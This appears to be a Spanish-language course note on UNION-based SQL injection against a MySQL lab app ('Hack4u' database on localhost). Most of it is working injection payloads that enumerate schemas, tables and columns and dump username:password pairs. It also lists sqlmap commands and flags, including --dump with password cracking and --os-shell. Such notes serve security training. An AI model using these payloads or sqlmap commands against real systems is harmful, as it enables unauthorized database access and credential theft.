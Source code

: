 -- -
Primero empezamos viendo la cantidad de columnas que existen con el uso de order by.
```sql
id=3' order by 100-- -
```

Una vez vimos la cantidad de columnas que existen empezamos con el uso de union select para empezar a ver el contenido almacenado.
```sql
id=3' union select 1
```
La cláusula UNION en SQL se utiliza para combinar los resultados de dos o más consultas SELECT.
En este caso, se intenta combinar los resultados de la consulta original con los resultados de una nueva consulta que el atacante introduce.

Esto nos tendria que mostrar el dato que esta almacenado en la primer columna de la tabla.
Pero si en vez de poner un identificador valido, ponemos unos no valido nos va a empezar a reflejar lo que ponemos, y ahi es cuando podemos  empezar a ejecutar de todo.  
```sql
id=32' union select database();
```

Con este comando le pedimos que nos liste todas las bases de datos existentes.
```sql
id=32' union select schema_name from information_schema.schemata-- -
```
- **schema_name** --->   columna en la tabla schemata dentro del esquema information_schema. Esta columna contiene los nombres de todas las bases de datos (schemas) en el servidor.
- **information_schema** ---> Esquema especial en MySQL que contiene vistas de metadatos 
- **schemata** ---> Es una tabla dentro del esquema information_schema


El problema es que a veces los resultados terminan siendo limitados. Para evitar eso es mejor jugar con la funcion group_concat() o con limits.
**group_concat** ---> Función que concatena los nombres de todas las tablas en una única cadena, separada por comas.
```sql
id=32' union select group_concat(schema_name) from information_schema.schemata-- -
id=32' union select schema_name from information_schema.schemata limit 0,1-- -
```

Luego, para enumerar las tablas de cierta base de datos podriamos ejecutar el siguiente comando.
```sql
id=32' union select group_concat(table_name) from information_schema.tables where table_schema='Hack4u'-- -
```

Luego, tambien para ver las columnas tendriamos q hacer algo muy similiar a lo anterior.
```sql
id=32' union select group_concat(column_name) from information_schema.columns where table_schema='Hack4u' and table_name='users'-- -
```

Para listar los usuarios podemos ejecutar el siguiente comando.
```sql
id=32' union select group_concat(username) from users-- -
```

Para listar los usuarios podemos ejecutar el siguiente comando.
```sql
id=32' union select group_concat(username,':',password) from users-- -
```

## Aclaraciones
------- 
- Con el order by tenemos que poner siempre la cantidad de columnas con un solo numero. Por ejemplo si la consulta sql es **"select username,password from users where id = '$id'")**, entonces la inyeccion con el order by seria: **id=1' order by 2-- -** ya que la consulta en si le esta pegando a 2 columnas dentro de la tabla.

- Luego, con el union select tendriamos que darle la cantidad de columas separadas por comas junto con un id valido, por ejemplo: **id=1' union select 1,2-- -** . Despues tendriamos que darle un valor erroneo al id para ver cual de los 2 numero separados por la coma nos muestra la pagina, ejemplo **id=-1' union select 1,2-- -**. Una vez vemos cual es el que nos muestra ahi mismo es donde tenemos que empezar a inyectar los comandos. **id=-1' union select database(),2-- -.
-- - 
## Sqlmap
-- - 
```python
sqlmap -u 'http://localhost/searchUsers.php?id=1' --dbs --cookie "PHPSESSID=8123791283"
sqlmap -u 'http://localhost/searchUsers.php?id=1' --cookie "PHPSESSID=812312" --dbms mysql --batch -D Hack4u --tables
sqlmap -u 'http://localhost/searchUsers.php?id=1' --cookie "PHPSESSID=812312" --dbms mysql --batch -D Hack4u -T users --columns
sqlmap -u 'http://localhost/searchUsers.php?id=1' --cookie "PHPSESSID=812312" --dbms mysql --batch -D Hack4u -T users -C username,password --dump
```

```python
--dbs --> Enumera las bases de datoso.
--dbms --> solamente prueba payloads para el dbms que le indiquemos. Ej: mysql, oracle, etc.
--batch --> Hace que tome las opciones por defecto.
-D --> Especificamos la base de datos a enumerar.
-T --> Especificamos la tabla a enumerar.
-C --> Indicamos columnas a enumerar.
--os-shell --> Intenta darnos una consola interactiva.
--dump --> Dumpea la base de datos y si las contraseñas estan hasheadas realiza un brute force attack para intentar descubrirlas.
--cookie --> setea cookie de sesion para poder acceder a cierto endpoint de la URL.
--risk --> Nivel de riesgo a probar (1-3, default 1)
--level --> Nivel de testeos a probar (1-5, default 1)
```
-- - 
